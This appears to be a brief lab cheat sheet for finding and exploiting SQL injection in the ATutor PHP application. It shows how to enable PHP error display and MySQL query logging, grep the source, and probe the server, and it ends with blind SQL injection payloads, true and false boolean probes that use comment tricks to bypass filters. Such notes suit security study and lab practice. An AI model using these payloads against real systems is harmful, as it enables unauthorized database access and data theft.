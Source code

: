 ### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=1#

False:
> AAAA')/**/or/**/(select/**/1)=0%23

> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=0#

